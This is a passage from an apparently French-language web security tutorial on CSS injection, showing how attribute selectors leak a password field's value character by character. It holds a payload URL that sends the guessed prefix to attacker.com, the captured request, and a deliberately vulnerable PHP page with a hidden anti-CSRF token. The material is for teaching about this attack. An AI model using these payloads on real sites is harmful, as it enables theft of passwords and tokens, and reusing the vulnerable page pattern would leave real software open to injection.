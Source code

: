 L'attaquant continuera son attaque en itérant sur les prochains caractères :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-password.php?color=black;}input[name=password][value^=az]{background-image:url(https://attacker.com/?leak=az);}
```
{% endcode %}

{% code overflow="wrap" %}
```http
GET /?leak=az HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

### Récupération de la valeur d'un attribut d'un élément HTML de type hidden via les sélecteurs d'attribut CSS

Malheureusement, la technique précédente ne fonctionne pas sur les champs `<input>` de type `hidden`. Cela pourrait pourtant être utile dans le cas ou l'application vulnérable utilise des champs cachés pour transmettre des jetons anti-CSRF par exemple :

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Attribute selectors iframe with hidden input</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
